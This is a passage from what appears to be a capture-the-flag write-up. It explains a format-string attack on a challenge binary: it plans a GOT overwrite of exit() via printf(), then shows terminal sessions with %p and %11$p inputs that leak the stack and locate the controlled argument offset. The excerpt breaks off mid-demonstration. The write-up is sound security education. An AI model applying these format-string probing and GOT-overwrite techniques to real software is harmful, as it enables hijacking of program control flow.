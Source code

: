 This knowledge allows for the creation of a rudimentary exploit plan:
* use printf() _somehow_ to overwrite a GOT function with the address of `unknownfunction`. My choice here will be to change `exit()` to execute `unknownfunction()`, so that it can be easily triggered with option 5 in the interactive menu.
* run options 4 and 5 to get the flag.

Using `printf()` to complete the exploit will be the most confusing part of all of this for beginners. Let's try to make things easier to understand with a few experiments.

## Approaching printf()
The first thing to do with a `printf()` bug is to figure out the layout of the stack, relative to `printf()`. This is because `printf()` takes all of its arguments<sup>3</sup> off the stack, and we'll need to figure out how the stack can be controlled to write to the GOT.
```c
***************************
<....>
Enter your choice:
1
Please enter the description of the report:
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p    # <-- spam %p to check the highest values on the printf() stack
Report created. Report ID is 1

***************************
<....>
Enter your choice:
2
Please enter your name:
aaaabbbbccccddddeeee                  # <-- the name is a part of the stack; add input here to control the stack of `printf()`
Welcome aaaabbbbccccddddeeee!
Please enter report number or press 0 to return to menu:
1
Report details:
0x8 0xf67bb5a0 0xf67fe000 0xf6679f70 0xf67ef5f0 0x1 0x4 0x61616161 0xf6000a31 0xf67bbd60 0x61616161 0x62626262 0x63636363 0x64646464 0x65656565 (nil) 0x8048e40 0x13 0xf67bbd60
Please enter report number or press 0 to return to menu:
```
This experiment shows that the input for `your name` will end up as the `11+`th argument for `printf()`
```c
...|     9    |    10    |    11    |    12    |    13    |    14    |    15    |...
...|0xf6000a31|0xf67bbd60|0x61616161|0x62626262|0x63636363|0x64646464|0x65656565|...
```
You can verify that fact by trying another format string that specifically targets the 11th argument:
```c
***************************
<...>
Enter your choice:
1
Please enter the description of the report:
%11$p
Report created. Report ID is 1

***************************
<...>
Enter your choice:
2
Please enter your name:
aaaa
Welcome aaaa!
Please enter report number or press 0 to return to menu:
1
```